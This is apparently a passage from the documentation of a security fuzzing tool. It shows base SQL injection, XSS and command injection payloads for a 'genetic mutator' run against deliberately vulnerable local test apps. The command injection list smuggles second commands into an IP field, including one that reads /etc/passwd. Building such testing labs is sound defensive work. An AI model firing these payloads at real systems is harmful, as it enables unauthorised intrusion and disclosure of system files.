 ### 3. Stop the Environment
```bash
# Stop containers
make test-env-stop

# Clean up completely
make test-env-clean
```

## 🧬 Testing Different Vulnerability Types

### SQL Injection Testing

```python
# Test against PHP app
target_url = "http://localhost:8082"
test_endpoint = f"{target_url}/search"

# Base payloads
payloads = [
    "1' OR '1'='1",
    "1' UNION SELECT 1,2,3--",
    "admin'--"
]

# The genetic mutator will evolve these payloads
# and test them against the vulnerable endpoint
```

### XSS Testing

```python
# Test against PHP app
target_url = "http://localhost:8082"
test_endpoint = f"{target_url}/?input=PAYLOAD"

# Base payloads
payloads = [
    "<script>alert('XSS')</script>",
    "<img src=x onerror=alert(1)>",
    "javascript:alert(1)"
]
```

### Command Injection Testing

```python
# Test against Node.js app
target_url = "http://localhost:8083"
test_endpoint = f"{target_url}/command"

# Base payloads
payloads = [
    "127.0.0.1; ls",
    "127.0.0.1 && whoami",
    "127.0.0.1 | cat /etc/passwd"
]
```
